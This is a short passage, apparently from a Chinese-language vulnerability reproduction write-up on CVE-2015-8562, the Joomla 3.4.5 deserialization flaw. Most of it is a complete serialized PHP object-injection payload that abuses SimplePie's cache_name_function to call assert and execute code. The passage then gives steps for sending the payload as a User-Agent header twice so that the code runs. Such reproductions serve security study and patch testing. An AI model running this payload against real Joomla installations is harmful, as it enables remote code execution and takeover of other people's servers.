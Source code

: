 ![](resource/(CVE-2015-8562)Joomla3.4.5反序列化漏洞/media/rId25.png)

    123}__test|O:21:"JDatabaseDriverMysqli":3:{s:4:"\0\0\0a";O:17:"JSimplepieFactory":0:{}s:21:"\0\0\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:5:"cache";b:1;s:19:"cache_name_function";s:6:"assert";s:10:"javascript";i:9999;s:8:"feed_url";s:37:"phpinfo();JFactory::getConfig();exit;";}i:1;s:4:"init";}}s:13:"\0\0\0connection";i:1;}?

将生成好的POC作为User-Agent，带上第一步获取的Cookie发包，这一次发包，脏数据进入Mysql数据库。然后同样的包再发一次，我们的代码被执行：
